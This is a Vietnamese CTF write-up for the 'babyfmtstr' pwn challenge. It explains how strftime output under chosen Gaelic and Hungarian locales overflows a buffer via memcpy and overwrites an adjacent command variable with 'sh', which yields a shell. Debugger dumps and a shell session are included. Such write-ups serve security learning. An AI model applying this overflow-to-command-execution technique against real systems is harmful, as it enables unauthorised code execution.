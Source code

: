 # write up babyfmtstr - fmtstr locale battle 
- first em sẽ đươc phép nhập format nhưng là format trong locale của libc nên khi qua hàm strftime nó sẽ được chuyển thành định dạng thời gian như ngày giờ, nên format string không sử dụng được như tên bài
```assembly 
00:0000│  0x5555555580e0 (output) ◂— '04/21/2404/21/2404/21/2404/21/2404/21/24%%%%%'
01:0008│  0x5555555580e8 (output+8) ◂— '04/21/2404/21/2404/21/2404/21/24%%%%%'
02:0010│  0x5555555580f0 (output+16) ◂— '04/21/2404/21/2404/21/24%%%%%'
03:0018│  0x5555555580f8 (output+24) ◂— '04/21/2404/21/24%%%%%'
04:0020│  0x555555558100 (command) ◂— '04/21/24%%%%%'
05:0028│  0x555555558108 (command+8) ◂— 0x2525252525 /* '%%%%%' */
06:0030│  0x555555558110 (command+16) ◂— 0x0
07:0038│  0x555555558118 (command+24) ◂— 0x0
```
- tiếp theo ta sẽ có hàm memcpy trong chương trình sẽ copy biến buff chứa những gì được chuyển đổi từ hàm strftime sang biến output, nhưng biến output chỉ có 0x20 bytes mà nó copy tới 0x30 nên buff xảy ra và lọt xuống biến chứa command sẽ được thực thi ở sau cùng, chính vì vậy khi em nhập format ngày giờ phải chọn đúng thì mới có thể overwrite được biến command thành sh để có shell
- vậy mục tiêu là ghi sh vào biến command vì nó là command ngắn nhất để lấy shell
```c
char output[0x20];
char command[0x20];
```
ở đây khi nhập format %A in tên ngày trong tuần thì nó chỉ có Sunday theo thời gian thực 
```bash
Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 1
The time now is 1713717621.
Enter format specifier: %A
Formatted: Sunday
```
- khi dịch Sunday sang nhiều thứ tiếng khác nhau thì khả năng có rất nhiều thứ tiếng sẽ có chữ s và h ở cuối vì vậy cần chọn cho thích hợp 
- Sẽ có 2 chữ có chữ s và chữ h trong chuỗi và ở vị trí thích hợp:
(1.) Didòmhnaic[h] tương ứng với sunday trong tiếng anh format %A
(2.) áprili[s] tương ứng với April trong tiếng anh format %B
- có thể sẽ mất nhiều thời gian để tìm, và cũng có thể vào 1 ngày khác trong tương lai sẽ có 1 ngày như vậy, với bài này chỉ dùng được cho chủ nhật vì hiện tại người làm đang ở ngày chủ nhật 
```bash
In [13]: hex(u64(b"aaprilis"))
Out[13]: '0x73696c6972706161'
```
```bash
In [10]: hex(u64(b"ilisaich"))
Out[10]: '0x6863696173696c69'
```
- khi đổi sang hex thì sẽ có được 2 bytes cuối là 0x68 và 0x73 ghép lại là 0x6873 chính là chữ "sh"

```bash
In [5]: hex(u16(b"sh"))
Out[5]: '0x6873'
```
- vì vậy ta chỉ cần overwrite 2 bytes cuối là có thể thực thi command
- vì vậy lần đầu overwrite ta sẽ chọn chữ số (1.) để overwrite 

```assembly
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x6944252525252525 ('%%%%%%Di')
03:0018│  0x5555555580f8 (output+24) ◂— 0x69616e686db2c344
04:0020│  0x555555558100 (command) ◂— 0x6863 /* 'ch' */
```
- để write được thì cần padding thích hợp sao cho chữ bytes cuối là chữ h rơi vào chữ l của command ban đầu 

```assembly
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x34322f31322f3430 ('04/21/24')
03:0018│  0x5555555580f8 (output+24) ◂— 0x696c697270a1c325
04:0020│  0x555555558100 (command) ◂— 0x6873 /* 'sh' */
```
- tiếp theo padding nốt 1 byte còn lại là 0x73 vào là xong, ta được chuỗi sh, khi chạy command sẽ tạo ra được shell
- khi chọn option 3 thì vòng lặp while đưa chương trình vào hàm goodbye và thực thi system 
```bash

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> $ 3
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x8 bytes:
    00000000  41 64 69 c3  b3 73 21 0a                            │Adi·│·s!·│
    00000008
Adiós!
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$  

```
## cách có được locale của 2 ngôn ngữ sử dụng
- đầu tiên edit file /etc/locale.gen uncomment 2 locales 
```bash
#gd_GB.UTF-8... done
#hu_HU.UTF-8... done

```
- gen locale
```bash
🍎 >> sudo locale-gen 
Generating locales...
  gd_GB.UTF-8... done
  hu_HU.UTF-8... done
Generation complete.

```
- check locale
```bash
🍎 >> localectl list-locales
C.UTF-8
gd_GB.UTF-8
hu_HU.UTF-8
```
```bash
[DEBUG] Received 0x12 bytes:
    b'Enter new locale: '
[DEBUG] Sent 0xb bytes:
    b'gd_GB.utf8\n'
[DEBUG] Received 0x78 bytes:
    b'Locale changed successfully!\n'
```



